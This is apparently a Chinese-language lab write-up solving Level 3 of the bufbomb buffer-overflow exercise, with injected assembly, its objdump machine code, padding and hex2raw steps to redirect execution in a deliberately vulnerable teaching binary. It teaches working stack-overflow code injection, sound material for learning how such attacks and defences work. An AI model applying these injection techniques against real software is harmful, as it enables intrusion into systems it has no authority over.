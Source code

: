 # bufbomb Level3 补充

![QQ截图20191215131347](http://47.103.197.224/img/QQ%bd%d8%cd%bc20191215131347.png)

和Level2一样，要通过缓冲区溢出调用一个函数，不同的是这里要传入一个字符串地址

通过`gdb`观察`eval2equal`函数发现，它的功能是将十六进制的cookie转化为字符串并和str进行比较

![QQ截图20191215132049](http://47.103.197.224/img/QQ%bd%d8%cd%bc20191215132049.png)

> 这里0x556832a2处存放的是cookie转换后的字符串
>
> `$ebp+0x8`是存放str的地址

因此首先要像Level2一样，编写.s文件

```assembly
movl	$0x804d208,%ecx  //这里直接用的global_value的地址
movl	$0x38423236,(%ecx)
movl	$0x41363831,0x4(%ecx)//将cookie“62B8186A”传入
push	%ecx			//将str首地址push入栈中
subl 	$0x4,%esp		
movl 	$0x0804953d,%eax//将rumble的地址0x0804950d push入栈
subl	$0x30,%eax		
push	%eax
ret
```

> 因为我的rumble地址里有`0d`会导致`getbuf`提前结束，因此这里采用将`0x0804953d-0x30`的方式push入栈
>
> 如果地址中没有这类特殊字节，则可以直接push

接着在`Terminal`中输入

```shell
as rumble.s -o rumble.o
objdump -d rumble.o > rumble-raw.txt
```

得到汇编指令对应的机器码

```assembly

rumble.o:     file format elf32-i386


Disassembly of section .text:

00000000 <.text>:
   0:	b9 08 d2 04 08       	mov    $0x804d208,%ecx
   5:	c7 01 36 32 42 38    	movl   $0x38423236,(%ecx)
   b:	c7 41 04 31 38 36 41 	movl   $0x41363831,0x4(%ecx)
  12:	51                   	push   %ecx
  13:	83 ec 04             	sub    $0x4,%esp
  16:	b8 3d 95 04 08       	mov    $0x804953d,%eax
  1b:	83 e8 30             	sub    $0x30,%eax
  1e:	50                   	push   %eax
  1f:	c3                   	ret    
```

接着在`Terminal`中输入`vim rumble.txt`

然后将这段机器码输入进去

![QQ截图20191215134613](http://47.103.197.224/img/QQ%bd%d8%cd%bc20191215134613.png)

反编译出来得到的机器指令字节，而在getbuf这里可以看到，距离要覆盖的ebp返回地址一共有64字节，因此还需要32个字节进行填充（这里用33做填充纯粹是打起来方便，没有其他含义）

![QQ截图20191215134902](http://47.103.197.224/img/QQ%bd%d8%cd%bc20191215134902.png)

同Level2一样，最后再加上%ebp的地址即可

保存rumble.txt后，输入

```shell
./hex2raw < rumble.txt > rumble-raw.txt
```

生成需要的输入字符串文件

然后运行bufbomb查看结果：

![QQ截图20191215135613](http://47.103.197.224/img/QQ%bd%d8%cd%bc20191215135613.png)

